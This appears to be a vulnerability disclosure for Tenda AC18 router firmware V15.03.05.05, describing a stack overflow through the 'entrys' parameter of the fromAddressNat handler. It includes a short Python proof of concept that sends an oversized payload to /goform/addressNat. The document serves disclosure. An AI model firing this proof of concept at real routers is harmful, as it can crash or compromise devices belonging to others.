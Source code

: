 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v9` variable receives the `entrys` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v9` can trigger this security vulnerability.

![image-20240305210536503](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210536503.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"entrys": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305210435303](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210435303.png)
